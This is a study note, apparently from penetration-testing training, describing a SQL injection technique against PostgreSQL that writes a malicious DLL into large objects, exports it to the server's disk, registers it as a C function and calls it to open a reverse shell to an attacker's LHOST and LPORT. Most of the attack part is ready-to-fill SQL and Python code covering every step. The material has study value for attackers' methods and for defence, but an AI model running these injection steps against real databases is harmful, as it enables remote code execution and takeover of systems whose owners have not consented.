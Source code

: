 # Reverse Shell 3b: Postgres Large Objects

Large objects are used for storing data that would be difficult to handle in its entirety, such as an image or PDF document. Data held in large objects can be **exported** back to file system as **identical copy** of original imported file (unlike `copy to`).

- To use large objects, DBAdmin privileges are required.

As such, we can create a large object that will hold our binary payload (custom DLL), export the large object to the remote server file system as an alternative to using a file share. 

Large objects are created by calling the `lo_import` function with the path of the file and an optional parameter for the `loid`, which is used to reference our large object. We can also use `\lo_list` and `\lo_unlink <id>`to interact with large objects.  

- LO import also creates item metadata required for exporting (hence we should simply import object from arbitrary file rather than create new object)

```sql
select lo_import('C:\\Windows\\win.ini', 1821);
-- C:\Windows\win.ini is a file that always exists
```

We can similarly export a specific large object into the file system

```sql
select lo_export(1821, 'C:\\Windows\\new_win.ini');
```

Updating large objects (which are stored in the `pg_largeobjects` table. Objects are stored in `2kb` chunks, and can be iterated through based on their page number. 

```sql
update pg_largeobject set data=decode($$xxxxx$$, $$hex$$) where loid=<loid> and pageno=0;
```

## Creating LO reverse shell

1. Create malicious DLL
2. Inject query that creates large object from arbitrary file
3. Inject query to update page 0 of LO with first 2KB of DLL
4. Inject queries that insert additional pages into `pg_largeobject` with remainder of DLL
5. Inject query that exports DLL onto remote file system
6. Inject query that creates Postgres UDF with exported DLL
7. Inject query that executes newly created UDF

```sql
-- Step 1:
-- Reference: https://stackoverflow.com/questions/3964245/convert-file-to-hex-string-python
with open(udf_filename, 'rb') as f:
		content = f.read()
udf = binascii.hexlify(content).decode('utf-8')

-- Step 2:
SELECT lo_unlink ({loid})
SELECT lo_import($$C:\\windows\\win.ini$$, {loid})

-- Step 3:
UPDATE pg_largeobject SET data=decode($${hex_string}$$,$$hex$$)
WHERE loid={loid} AND pageno=0"

-- Step 4:
-- Reference: https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES 
({loid}, {i}, decode($${hex_string}$$, $$hex$$))

-- Step 5:
SELECT lo_export({loid}, $$C:\\Users\\Public\\connect_back.dll$$)

-- Step 6:
CREATE OR REPLACE FUNCTION connect_back(text, integer)
RETURNS void AS $$C:\\Users\\Public\\connect_back.dll$$,
$$connect_back$$ LANGUAGE C STRICT

-- Step 7:
SELECT connect_back($${LHOST}$$, {LPORT})
```

## LO Encoding

The data column of `pg_largeobject` holds data in the binary string `bytea` format. Based on [postgres](Reverse%20Shell%203b%20Postgres%20Large%20Objects%20b1bc2235bedf414eb3ebb233d3429f0f.md) documentation, this supports hex encoding of target data for importing and exporting. As such, we convert our malicious DLL into a hex string.

Each byte is represented with 2 hexadecimal digits. Each 2 characters will be a representation of a single raw bytes (hex representation will double the size of original file).

Each page of LO object holds 2,048 bytes of raw data. Each 4096 characters of hex encoding will represent 2KB, which will be the chunk size when injecting payload.